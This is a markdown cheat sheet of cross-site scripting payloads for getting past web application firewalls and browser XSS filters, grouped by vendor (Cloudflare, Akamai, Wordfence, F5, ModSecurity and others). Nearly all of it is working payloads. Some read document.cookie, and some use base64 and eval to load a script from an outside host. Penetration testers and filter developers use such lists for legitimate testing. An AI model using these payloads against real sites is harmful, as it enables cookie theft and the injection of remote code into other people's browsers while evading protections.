 # ✖️ XSS WAF Bypass

**XSS-protection bypass**

```
<embed/:script allowscriptaccess=always src=example.com/x.js>
```

**Cloudflare Bypass**

```
<a"/onclick=(confirm)()>click
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;\u0061\u006C\u0065\u0072\u0074&lpar;this['document']['cookie']&rpar;">X</a>
<--`<img/src=` onerror=confirm``> --!>
```

**Akamai bypass**

```
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x> //akamai ghost bypass
<d3v/onauxclick=[2].some(confirm)>click
<a href="javascript:pro\u006dpt(document.cookie)">L1k0r</a>
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

**Generic WAF Bypasses**

```
<!" (without quotes) before: <!<script>alert(1)</script>
anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
BLOCKED <body/onload PASSED <body/onpageshow  BLOCKED =alert() PASSED =(alert)()

Notification.requestPermission(x=>{new(Notification)(1)})

<svg/onload=eval(location.hash.slice(1))>#with(document)body.appendChild(createElement('script')).src='//DOMAIN'
[base64 bypass firefox]: #with(document)body.appendChild(createElement(/script/.source)).src=atob(/Ly9icnV0ZWxvZ2ljLmNvbS5ici8y/.source)

[FINAL/src=brutelogic.com.br/2]: <svg/onload=eval(atob(URL.slice(-148)))>#d2l0aChkb2N1bWVudClib2R5LmFwcGVuZENoaWxkKGNyZWF0ZUVsZW1lbnQoL3NjcmlwdC8uc291cmNlKSkuc3JjPWF0b
2IoL0x5OWljblYwWld4dloybGpMbU52YlM1aWNpOHkvLnNvdXJjZSk=
```

**MORE: Bypassing WAFs in Wild**

```
Name: Wordfence
Payload: <a/href=javascript&colon;alert()>click

Name: Barracuda
Payload: <a/href=&#74;ava%0a%0d%09script&colon;alert()>click

Name: Comodo
Payload: <d3v/onauxclick=(((confirm)))``>click

Name: F5
Payload: <d3v/onmouseleave=[2].some(confirm)>click

Name: ModSecurity
Payload: <details/open/ontoggle=alert()>

Name: dotdefender
Payload: <details/open/ontoggle=(confirm)()//
```





***

## REFERENCES

* [https://github.com/0xVIC/CheatSheets/blob/master/Cross-site%20scripting/WAF\_bypasses.md](https://github.com/0xVIC/CheatSheets/blob/master/Cross-site%20scripting/WAF\_bypasses.md)
* [https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)
* [https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html)

